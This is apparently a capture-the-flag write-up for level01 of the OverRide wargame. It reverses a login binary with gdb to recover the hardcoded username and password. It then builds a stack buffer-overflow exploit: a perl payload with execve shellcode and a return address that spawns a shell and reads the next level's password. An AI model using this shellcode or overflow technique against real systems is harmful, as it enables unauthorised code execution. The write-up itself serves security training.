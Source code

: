 # level01

The program reads username and password from stdin and always prints `nope, incorrect password...`.

## Step 1. Find the right username and password
```assembly
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_name" level01
[...]
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_pass" level01
[...]
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
```
By disassembling these two verification function, we found the address of username and password.

```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

## Step 2. Calculate offset to overwrite `eip`
```assembly
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level01
[...]
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
=> 0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
```
```
level01@OverRide:~$ gdb -q level01
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) break *0x08048574
Breakpoint 1 at 0x8048574
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:

Breakpoint 1, 0x08048574 in main ()
(gdb) info registers eax
eax            0xffffd6bc	-10564
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048574 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd6bc
$1 = 80
```
The username buffer is a global variable, we cannot use it to overwrite eip. We set a breakpoint before calling function `fgets`, then got offset `80` by calculating `eip - eax`.

## Step 3. Find a place to inject shellcode
```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address `0x0804a040 + 0x7` to access it.

## Step 4. Build payload
```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n", "A"x80, pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
